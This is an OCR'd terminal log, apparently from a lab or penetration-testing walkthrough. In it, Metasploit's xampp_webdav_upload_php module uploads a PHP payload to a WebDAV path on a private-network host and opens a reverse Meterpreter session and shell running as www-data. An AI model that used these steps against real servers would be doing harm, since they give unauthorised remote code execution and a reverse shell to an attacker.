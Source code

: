 
Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(xampp_webdav_upload_php) > set path /dav/
path => /dav/
msf exploit(xampp_webdav_upload_php) > set rhost 192.168.118.177
rhost => 192.168.118.177
msf exploit(xampp_webdav_upload_php) > exploit

[*] Started reverse TCP handler on 192.168.118.176:4444
[*] Uploading Payload to /dav/O7pOf5A.php
[*] Attempting to execute Payload
[*] Sending stage (33986 bytes) to 192.168.118.177
[*] Meterpreter session 1 opened (192.168.118.176:4444 -> 192.168.118.177:59857) at 2017-05-18 22:02:48 -0400
meterpreter > shell
Process 5392 created.
Channel 0 created.
whoami
www-data
